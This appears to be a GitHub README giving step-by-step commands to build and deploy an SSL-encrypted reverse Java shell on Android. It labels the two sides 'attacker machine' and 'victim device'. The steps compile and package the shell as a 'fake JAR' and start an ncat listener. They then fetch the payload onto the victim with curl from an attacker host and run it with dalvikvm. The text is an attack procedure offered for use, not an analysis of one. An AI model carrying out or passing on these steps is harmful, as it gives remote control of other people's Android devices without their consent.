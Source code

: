 ## Android Reverse Java Shell using SSL Encryption

## On Attacker machine - Linux -
### (you need android sdk installed and build-tools also) 

#### Compile Java source code to bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 Shell.java TrustAllCertificates.java`

#### Convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 Shell.class TrustAllCertificates.class`

#### Create fake JAR file
`zip reverse_ssl.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337`

## On Victim device - Android -
`adb push reverse_ssl.jar /sdcard` (if Android Debug Tools is enabled)

or you can just curl and then run the reverse shell using dalvikvm from Termux:

`curl http://attackingmachine:9999/reverse_ssl.jar -o /sdcard/reverse_ssl.jar`<br/>

then

`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse_ssl.jar Shell`

You can of course create a pure .apk package and sign it using Android Studio or apktool and apksigner.

## Credits

Inspired from: https://gist.github.com/FrankSpierings/e330e3aea3152f816c202b883887dd60
